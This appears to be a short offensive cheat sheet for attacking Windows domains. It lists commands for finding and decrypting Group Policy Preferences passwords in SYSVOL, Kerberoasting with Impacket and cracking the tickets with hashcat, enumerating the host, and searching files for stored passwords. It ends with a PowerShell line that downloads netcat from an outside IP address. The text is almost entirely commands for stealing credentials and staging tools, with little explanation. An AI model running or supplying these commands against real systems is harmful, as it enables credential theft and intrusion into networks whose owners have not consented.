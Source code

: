 # Credentials

Searching for GPP passwords

> can be run from any machine in domain
```
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policy\*. xml
```
it's a string encoded in AES256 with well known key. To decrypt use gpp-decrypt tool or use metasploit smb_enum_gpp module


# Kerberoasting

Get SPN's (servicies) from DC. Get TGS of the servicies

> Impacket
```
GetUserSPNs.py $domain/$user:#password -dc-ip $ip_addres_of_dc -request
```

After that use hashcat to crack service password (-m 13100)

# Enumeration
## Basics

```
whoami 
systeminfo 
net users 
net localgroups
net user user1 - more info about user
wmic qfe get Caption,Description,HotFixID,InstalledOn - gather how well system is patched
```

## Look for open credentials

```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

# Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```

## File download
```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe')
```
